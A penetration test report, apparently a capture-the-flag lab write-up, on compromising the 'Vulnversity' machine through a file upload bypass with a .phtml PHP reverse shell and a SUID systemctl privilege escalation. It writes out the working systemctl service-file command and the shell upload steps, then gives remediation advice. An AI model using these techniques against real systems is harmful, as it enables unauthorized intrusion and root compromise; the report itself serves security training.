










---

# **Penetration Test Report: Vulnversity**

---

### **TL;DR**

This penetration test resulted in full root compromise through a vulnerable file upload functionality and a privilege escalation misconfiguration. Initial access was obtained by bypassing file extension restrictions and uploading a malicious PHP reverse shell disguised as a `.phtml` file. Post-exploitation enumeration identified a SUID-enabled `systemctl` binary that could be abused to execute arbitrary commands with elevated privileges, resulting in root-level access.

---

### **Target Information**

- **Target IP:** 10.112.186.120
- **Operating System:** Ubuntu Linux
- **Open Ports:**
    - 21/tcp – FTP (vsftpd 3.0.5)
    - 22/tcp – SSH (OpenSSH 8.2p1)
    - 139/tcp – SMB (Samba 4.6.2)
    - 445/tcp – SMB (Samba 4.6.2)
    - 3128/tcp – Squid Proxy 4.10
    - 3333/tcp – Apache HTTP Server 2.4.41
- **Assessment Type:** Authorized Lab Environment

---

### **Executive Summary**

A penetration test was conducted against the Vulnversity target machine, simulating an external attacker with no prior access.

The assessment resulted in complete system compromise. Initial reconnaissance identified a web application hosted on TCP port 3333. Directory enumeration revealed an upload functionality that failed to adequately validate uploaded file types.

By bypassing extension restrictions using a `.phtml` extension, arbitrary PHP code execution was achieved, resulting in a reverse shell as the `www-data` user.

Further post-exploitation enumeration revealed a critical operating system misconfiguration in the form of a SUID-enabled `systemctl` binary. This allowed arbitrary systemd service creation and execution with elevated privileges, ultimately resulting in full root compromise.

**Key Findings:**

| Finding | Severity | Impact |
| --- | --- | --- |
| Insecure File Upload Validation | High | Remote Code Execution |
| Executable Upload Directory | High | Arbitrary Command Execution |
| Misconfigured SUID systemctl Binary | Critical | Root Privilege Escalation |

The combined effect of these vulnerabilities resulted in complete compromise of the target system.

---

### **Scope and Methodology**

**Scope:**

- **Target:** 10.112.186.120
- **Application:** Vulnversity Web Application
- **Ports/Protocols in Scope:**
    - 21/tcp – FTP
    - 22/tcp – SSH
    - 139/tcp – SMB
    - 445/tcp – SMB
    - 3128/tcp – HTTP Proxy
    - 3333/tcp – HTTP

**Methodology:**

The assessment followed a structured penetration testing methodology:

1. **Reconnaissance & Enumeration: s**ervice discovery using Nmap, directory enumeration using Gobuster
2. **Vulnerability Analysis:** discovery of upload functionality, analysis of file upload restrictions
3. **Exploitation:** upload restriction bypass, deployment of PHP reverse shell, remote code execution
4. **Post-Exploitation & Privilege Escalation:** local enumeration, SUID binary assessment, abuse of misconfigured `systemctl` 
5. **Documentation:** documentation of findings, impact, and remediation recommendations.

---

### **Findings and Exploitation**

#### **Initial Access: Remote Code Execution via Insecure File Upload**

**Vulnerability Summary**

The web application contained an upload functionality within the `/internal` directory. Although file extension filtering was implemented, the application allowed alternative PHP extensions, enabling arbitrary PHP code execution.

**Technical Walkthrough**

1. **Port Scanning & Service Discovery**

    Initial reconnaissance was performed using Nmap.

    ```bash
    nmap -sV -sC -A -p- 10.112.186.120
    ```

    

    Key findings:

        ```
        21/tcp   open  ftp
        22/tcp   open  ssh
        139/tcp  open  netbios-ssn
        445/tcp  open  netbios-ssn
        3128/tcp open  http-proxy
        3333/tcp open  http
        ```

    The Apache web application running on TCP port 3333 was selected for further assessment.


2. **Directory Enumeration**

    Directory brute forcing was performed using Gobuster.

    ```bash
    gobuster dir -u http://10.112.186.120:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
    ```

    

    Results:

    ```
    /images
    /css
    /js
    /internal
    ```

    The `/internal` directory contained a file upload form.


3. **Upload Filter Testing**

    Burp Suite Intruder was used to identify permitted upload extensions.

    Test wordlist:

    

    After identifying a file upload restriction via error message, Burp Suite Intruder was configured in Sniper mode to fuzz the file extension parameter using a custom wordlist of five PHP variants. This targeted fuzzing attack successfully bypassed the filter, revealing that the server executes `.phtml` files and allowing the upload of a functional reverse shell.

    

    

    


4. **Reverse Shell Upload**

    A PHP reverse shell payload was configured and renamed:

    ```
    php-reverse-shell.phtml
    ```

    A Netcat listener was established:

    ```bash
    nc -lvnp 4444
    ```

    The payload was uploaded and executed through:

    ```
    http://10.112.186.120:3333/internal/uploads/php-reverse-shell.phtml
    ```


5. **Remote Access Obtained**

    A successful reverse shell was established.

    Verification:

    ```bash
    whoami
    ```

    Output:

    ```bash
    www-data
    ```

    

    Further enumeration identified the local user:

    ```bash
    bill
    ```

    

---

### **Post-Exploitation & Privilege Escalation**

#### **Privilege Escalation via Misconfigured SUID systemctl**

**Vulnerability Summary**

Post-exploitation enumeration revealed that the `systemctl` binary possessed SUID permissions. This allowed a low-privileged user to create and execute arbitrary systemd services with elevated privileges.

**Technical Walkthrough**

1. **SUID Enumeration**

    The following command was used to identify SUID binaries:

        ```bash
        find / -perm -4000 -type f 2>/dev/null
        ```

    Relevant finding:

    ```
    /bin/systemctl
    ```

    

    This binary is listed within GTFOBins as exploitable when configured with SUID permissions.


2. **Service Creation Abuse**

    A temporary malicious service file was created and executed through the SUID-enabled binary.

    ```bash
    TF=$(mktemp).service && \
    echo -e "[Service]\nType=oneshot\nExecStart=/bin/sh -c 'cat /root/root.txt > /tmp/output'\n[Install]\nWantedBy=multi-user.target" > $TF && \
    /bin/systemctl link $TF && \
    /bin/systemctl enable --now $TF
    ```

    


3. **Root Access Verification**

    The output file was examined:

    ```bash
    cat /tmp/output
    ```

    Result:

    ```
    a58ff8579f0a9270368d33a9966c7fd5
    ```

    Successful retrieval of the root flag confirmed root-level command execution.

---

### **Risk Assessment**

| Finding | Description | Likelihood | Impact | Risk Rating |
| --- | --- | --- | --- | --- |
| Insecure File Upload Validation | Alternative PHP extensions permitted by upload functionality. | High | High | High |
| Executable Upload Directory | Uploaded files executed directly by Apache. | High | High | High |
| Misconfigured SUID systemctl | Allows execution of privileged systemd services. | High | Critical | Critical |

### **Risk Factor Analysis**

| Risk Factor | Analysis |
| --- | --- |
| Confidentiality | Complete compromise of sensitive data stored on the host |
| Integrity | Full modification capability over system files |
| Availability | Root access enables service disruption and denial of service |
| Exploitability | Low complexity attack chain |
| Detectability | Detectable through web server logs and system auditing |

---

### **Conclusion**

The Vulnversity target was successfully compromised through a multi-stage attack chain involving insecure file upload validation and a critical privilege escalation vulnerability.

The initial vulnerability enabled remote code execution through upload of a malicious PHP payload. Subsequent local enumeration identified a SUID-enabled `systemctl` binary that allowed arbitrary command execution with elevated privileges, resulting in complete compromise of the target system.

This assessment demonstrates the importance of secure file upload validation, proper segregation of uploaded content, and routine auditing of privileged binaries.

---

### **Recommendations**

**Secure File Upload Functionality**

- Implement strict allowlisting of approved file types.
- Validate file contents rather than relying solely on extensions.
- Reject executable file formats.
- Rename uploaded files server-side.

**Disable Script Execution in Upload Directories**

- Store uploaded content outside the web root.
- Disable PHP execution within upload locations.
- Apply least-privilege filesystem permissions.

**Remove Dangerous SUID Permissions**

- Remove SUID permissions from `systemctl`.
- Audit SUID binaries regularly.

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Implement Continuous Monitoring**

- Monitor upload activity.
- Alert on executable file uploads.
- Review privilege escalation events.
- Conduct periodic security assessments.

---